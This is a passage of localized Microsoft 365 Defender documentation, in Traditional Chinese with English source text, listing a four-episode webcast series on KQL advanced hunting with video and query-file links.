|<span data-ttu-id="1af7f-372">職稱</span><span class="sxs-lookup"><span data-stu-id="1af7f-372">Title</span></span>|<span data-ttu-id="1af7f-373">描述</span><span class="sxs-lookup"><span data-stu-id="1af7f-373">Description</span></span>|<span data-ttu-id="1af7f-374">下載所用的</span><span class="sxs-lookup"><span data-stu-id="1af7f-374">Download MP4</span></span>|<span data-ttu-id="1af7f-375">手錶 YouTube</span><span class="sxs-lookup"><span data-stu-id="1af7f-375">Watch on YouTube</span></span>|<span data-ttu-id="1af7f-376">要使用的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1af7f-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="1af7f-377">第1集： KQL 基礎</span><span class="sxs-lookup"><span data-stu-id="1af7f-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="1af7f-378">我們將涵蓋 Microsoft 365 Defender 中的高級搜尋功能的基本知識。</span><span class="sxs-lookup"><span data-stu-id="1af7f-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="1af7f-379">深入瞭解可用的高級搜尋資料和基本 KQL 語法及運算子。</span><span class="sxs-lookup"><span data-stu-id="1af7f-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="1af7f-380">時</span><span class="sxs-lookup"><span data-stu-id="1af7f-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="1af7f-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="1af7f-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="1af7f-382">第1集： Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1af7f-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="1af7f-383">劇集2：聯接</span><span class="sxs-lookup"><span data-stu-id="1af7f-383">Episode 2: Joins</span></span>|<span data-ttu-id="1af7f-384">我們將繼續深入瞭解高級搜尋中的資料，以及如何將資料表結合在一起。</span><span class="sxs-lookup"><span data-stu-id="1af7f-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="1af7f-385">瞭解內部、外部、unique 和半圓的連接，以及預設 Kusto innerunique join 的細微差別。</span><span class="sxs-lookup"><span data-stu-id="1af7f-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="1af7f-386">時</span><span class="sxs-lookup"><span data-stu-id="1af7f-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="1af7f-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="1af7f-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="1af7f-388">劇集2： Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1af7f-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="1af7f-389">第3集：匯總、切換和視覺化資料</span><span class="sxs-lookup"><span data-stu-id="1af7f-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="1af7f-390">現在，我們可以篩選、處理及加入資料，這是時間開始摘要、量化、旋轉及形象。</span><span class="sxs-lookup"><span data-stu-id="1af7f-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="1af7f-391">在此過程中，我們將涵蓋匯總運算子和您可以執行的一些計算，同時深入探討高級搜尋架構中的其他表格。</span><span class="sxs-lookup"><span data-stu-id="1af7f-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="1af7f-392">我們會將資料集變成圖表，以協助改善分析。</span><span class="sxs-lookup"><span data-stu-id="1af7f-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="1af7f-393">時</span><span class="sxs-lookup"><span data-stu-id="1af7f-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="1af7f-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="1af7f-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="1af7f-395">第3集： Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1af7f-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="1af7f-396">第4集：讓我們尋找！</span><span class="sxs-lookup"><span data-stu-id="1af7f-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="1af7f-397">將 KQL 套用至事件追蹤</span><span class="sxs-lookup"><span data-stu-id="1af7f-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="1af7f-398">追蹤某些攻擊者活動的時間！</span><span class="sxs-lookup"><span data-stu-id="1af7f-398">Time to track some attacker activity!</span></span> <span data-ttu-id="1af7f-399">在此期間，我們將使用 Microsoft 365 Defender 中深入瞭解的 KQL 和高級搜尋來追蹤攻擊。</span><span class="sxs-lookup"><span data-stu-id="1af7f-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="1af7f-400">深入瞭解此欄位中所用的部分秘訣，以追蹤攻擊者的活動，包括 cybersecurity 的 ABCs，以及如何將其套用至事件回應。</span><span class="sxs-lookup"><span data-stu-id="1af7f-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="1af7f-401">時</span><span class="sxs-lookup"><span data-stu-id="1af7f-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="1af7f-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="1af7f-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="1af7f-403">第4集： Git 中的 CSL 檔案</span><span class="sxs-lookup"><span data-stu-id="1af7f-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="1af7f-404">下一步</span><span class="sxs-lookup"><span data-stu-id="1af7f-404">Next step</span></span>

|<span data-ttu-id="1af7f-405"></span><span class="sxs-lookup"><span data-stu-id="1af7f-405"></span></span> <br>[<span data-ttu-id="1af7f-406">關閉及摘要階段</span><span class="sxs-lookup"><span data-stu-id="1af7f-406">Closing and summary phase</span></span>](m365d-pilot-close.md)|<span data-ttu-id="1af7f-407">分析您的 Microsoft 365 Defender 試驗結果，將其呈現給您的專案關係人，然後採取下一個步驟。</span><span class="sxs-lookup"><span data-stu-id="1af7f-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
